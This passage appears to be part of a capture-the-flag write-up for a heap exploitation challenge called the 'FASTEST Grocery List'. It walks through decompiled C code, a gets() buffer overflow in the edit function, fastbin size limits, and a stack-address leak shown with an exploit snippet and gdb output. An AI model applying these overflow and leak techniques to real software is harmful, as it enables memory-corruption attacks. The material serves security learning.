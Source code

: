 ```C
    switch ( select ) {
      case 1:
        print_all();
        break;
      case 2:
        add_item();
        break;
      case 3:
        add_empty();
        break;
      case 4:
        delete_item();
        break;
      case 5:
        edit_item();
        break;
      case 6:
        add_default(grocery_item);
        break;
      case 7:
        puts_("Goodbye\n");
        free_all();
        break;
      default:
        puts_("Invalid choice\n");
        break;
    }
  } while ( select != 7 );
```

Looks good, but we have some limitation on malloc chunk size, only FASTBIN allowed `small = 0x10`, `medium = 0x38`, and `large = 0x60`. This actually confirms the challange description `the FASTEST Grocery List in the world`, well, yes _FASTEST_ bin.

## overflow
In `edit` we have overflow using `gets()`,
```C
    puts_("Which item would you like to edit?");
    fflush(stdin);
    scanf("%d", &index);
    if ( index < 0 || count <= index ) {
      puts_("Invalid index\n");
    } else {
      puts_("Enter your item`s new name: ");
      gets(ptr_list[index]);
      item = ptr_list[v2];
      item[strcspn(ptr_list[index], "\n")] = 0;
    }
```

## leak
In `add_default`, the argument isn't passed properly, instead of copying it's value, it's actually copied the pointer to grocery_item on stack. Thus, we have stack leak.
```
    add_default()
    stack = u64(dump_all()[0].ljust(8, '\x00'))
    log.info('stack ' + hex(stack))

gdb-peda$ x/10gx 0x555555554000+0x202040
0x555555756040: 0x0000555555758430      0x0000000000000000
0x555555756050: 0x0000000000000000      0x0000000000000000
0x555555756060: 0x0000000000000000      0x0000000000000000
0x555555756070: 0x0000000000000000      0x0000000000000000
```
